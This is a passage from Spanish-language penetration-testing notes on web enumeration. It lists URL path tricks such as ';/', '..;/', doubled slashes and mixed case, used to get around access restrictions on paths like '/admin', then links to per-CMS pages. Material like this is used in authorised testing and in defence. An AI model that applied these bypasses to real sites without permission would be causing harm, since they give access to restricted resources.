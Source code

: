 
```
http://example.com/secret/. # un punto
http://example.com/secret// # añadiendo 2 barras
http://example.com/./secret/.. # añadiendo un . y dos al final
http://example.com/;/secret # un ; entre medio
http://example.com/.;/secret # un . y ; 
http://example.com//;//secret # un ; y doble barra
```

1. Añadiendo un ";/" después del nombre del directorio

```
http://example.com/admin
```

Bypass con:

```
http://example.com/admin..;/
```

1. Cambiando los caracteres en mayusculas y minusculas

```
http://example.com/admin
```

Bypass con:

```
http://example.com/aDmIn
```

## CMS - Tecnologías web

- [Wordpress](https://j4ckie0x17.gitbook.io/notes-pentesting/enumeracion-de-servicios/80-433-http-https/wordpress)
    
- [Tiny File Manager](https://j4ckie0x17.gitbook.io/notes-pentesting/enumeracion-de-servicios/80-433-http-https/tiny-file-manager)
    
- [Joomla](https://j4ckie0x17.gitbook.io/notes-pentesting/enumeracion-de-servicios/80-433-http-https/joomla)
    
- [Magento](https://j4ckie0x17.gitbook.io/notes-pentesting/enumeracion-de-servicios/80-433-http-https/magento)
    
- [Drupal](https://j4ckie0x17.gitbook.io/notes-pentesting/enumeracion-de-servicios/80-433-http-https/drupal)
    
- [TeamCity](https://j4ckie0x17.gitbook.io/notes-pentesting/enumeracion-de-servicios/80-433-http-https/teamcity)
    
- [WebDav](https://j4ckie0x17.gitbook.io/notes-pentesting/enumeracion-de-servicios/80-433-http-https/webdav)
    
- [Tomcat](https://j4ckie0x17.gitbook.io/notes-pentesting/enumeracion-de-servicios/80-433-http-https/tomcat)
    